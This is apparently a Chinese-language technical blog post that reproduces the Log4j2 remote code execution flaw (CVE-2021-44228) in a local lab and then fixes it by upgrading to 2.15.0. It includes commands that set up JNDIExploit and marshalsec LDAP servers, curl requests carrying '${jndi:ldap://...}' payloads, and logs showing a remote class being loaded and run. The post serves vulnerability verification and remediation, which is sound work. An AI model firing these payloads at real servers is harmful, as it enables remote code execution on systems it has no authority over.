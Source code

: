 ```yaml
---
layout: post
title: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
categories: Java
description: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
keywords: cve, log4j, log4j2, 漏洞
---
```


近期，大家都被这个**核弹级**漏洞搞疯了，各种紧急生产补丁的上，所以咱也来凑凑热闹

## 问题
这个漏洞到底有多严重？基本上看到`远程代码执行`，就是非常严重的漏洞，因为这代表攻击者，可以在被攻击者服务器上，执行任何想要的操作。

## 思考
怎么验证存在及修复了这个漏洞？

## 复现
### 基于JNDIExploit，搭建LDAP
- 参考：<https://github.com/Mr-xn/JNDIExploit-1>
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1`

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动

### 见证奇迹的时刻
- 请求
```shell
curl -d 'val=${jndi:ldap://127.0.0.1:1389/SkTest211213Before}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log
```
- JNDIExploit控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
```

## 解决
参考官方解决意见，升级版本到`2.15.0`，包括但不限于如下方式：
- SpringBoot项目
```xml
  <properties>
    <java.version>1.8</java.version>
    <log4j2.version>2.15.0</log4j2.version><!-- add this property to fix CVE-2021-44228 -->
  </properties>
```

## 回顾
### 原理
- log4j2在打印`${xxx}`内容时，会当命令执行

### 远程代码执行
#### 将漏洞文件放于某Web服务器中
- 如：将 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228/src/main/resources/static/Log4j2Rce.class> 文件放于某Web服务器中
- 或启动 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228> 工程

#### 通过marshalsec，搭建LDAP
- 参考：<https://github.com/mbechler/marshalsec>
- 命令（根据需要替换Web服务器url）
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8081/#Log4j2Rce" 1389
```

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动（如上面已启动，则无需再启动）

#### 见证奇迹的时刻
- 请求：
```shell
curl -d 'val=${jndi:ldap://127.0.0.1:1389/Log4j2Rce}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log
```

- org.shaneking.demo.cve.y2021.s44228.web控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）

```shell
2021-12-15 01:58:09.458  INFO 45940 --- [nio-8081-exec-2] o.s.w.s.DispatcherServlet                : Completed initialization in 16 ms
SkTest211213Before: will print when Log4j2Rce loaded in static.
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:09.795  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.332  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : RAW = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.351  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : FMT = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
```

## 附录
- 基于DREAD模型的漏洞等级计算：<https://www.secrss.com/articles/5566>
![](/images/posts/2021/12/db5608769f509557cb99ff7e464bd059.jpg)
- 安全漏洞如何评级：<https://www.zhihu.com/question/53669275>
![](/images/posts/2021/12/v2-de2ba8149eeac2cc442c1d3214f5f44f_1440w.jpg)
- 漏洞等级说明：<https://help.aliyun.com/document_detail/28388.html>

